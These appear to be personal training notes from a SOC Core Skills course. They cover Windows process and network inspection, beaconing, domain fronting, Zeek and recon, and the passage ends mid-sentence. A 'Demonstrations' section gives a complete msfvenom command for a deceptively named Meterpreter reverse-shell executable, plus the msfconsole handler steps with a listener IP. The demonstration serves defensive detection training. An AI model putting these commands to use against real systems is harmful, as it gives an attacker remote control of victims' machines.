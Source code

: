 ![SOC Core Skills-3.png](/img/user/cards/blue-team/siem/images/SOC%20Core%20Skills-3.png)

- `wmic process get name,parentprocessid,processid`

![SOC Core Skills-4.png](/img/user/cards/blue-team/siem/images/SOC%20Core%20Skills-4.png)
#### Demonstrations
---
Creating a malware then pass it to Windows via curl:

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 -f exe -o /tmp/TrustMe.exe
```

1. `msfconsole -q`
2. `use exploit/multi/handler`
3. `set PAYLOAD windows/meterpreter/reverse_tcp`
4. `set LHOST 10.200.200.7`
5. `exploit`
6. Run the .exe on Windows.

`netstat -naob`:

![SOC Core Skills-5.png](/img/user/cards/blue-team/siem/images/SOC%20Core%20Skills-5.png)

using `wmic` command:

![SOC Core Skills-6.png](/img/user/cards/blue-team/siem/images/SOC%20Core%20Skills-6.png)

- https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md - reference
- deepbluecli - have a look


SOME AD attacks & defend - https://www.youtube.com/watch?v=rSgj-oMxG0g

WINDOWS FORENSICS - https://www.youtube.com/watch?v=7Z-Su-jkUnQ

## Day 3

- **Beacons** - some backdoors have a very strong “heartbeat”. This is where a backdoor will constantly reconnect to get commands from an attacker at a specific interval
- Server logs then check the IP address in tools such IP database but attackers can bounce off traffic to CDNs known as **domain fronting**.
- The use of tools/wisdom to get to the top of the pyramid - _data knowledge information pyramid_.
	- When looking for something it is a good idea to consult the _CIS benchmark_. A lot of times a.k.a the manual.
	- ![SOC Core Skills-7.png](/img/user/cards/blue-team/siem/images/SOC%20Core%20Skills-7.png) hit it with nessus or NUCLI much preferred and watch the logs.
	- use vendor hardening guide, or any third paty source for securing the app.
	- IT'S TIME TO DIG DEEP!
	- builtwith website to know what company is builtwith. FULL RECON,
		- site: risebroadband.com 
		- remove `- www` to see somethind different. (Discovered ADFS tool - now we can use this to our advantage in interviews)
		- Then remove `adfs` look it up and say be **familiar** with adfs - familiar and how to secure them.
		- look for closed connections on memory analysis.
	- If you see file explorer.exe as the one who runs an image it means a user clicks it.
- zeek for network analysis.
	- Due to encoding, obsfucation - we should rely on **context**. and not on signature based this makes zeek good.
	- But what about intervals? attackers could connect or perform their malicious activities in small, medium, large intervals - then it would be tough unlike brute-forcing where in it's 0.5 ms to 1 second.
		- The key is put it in a **course of a day** then add up the amount:  

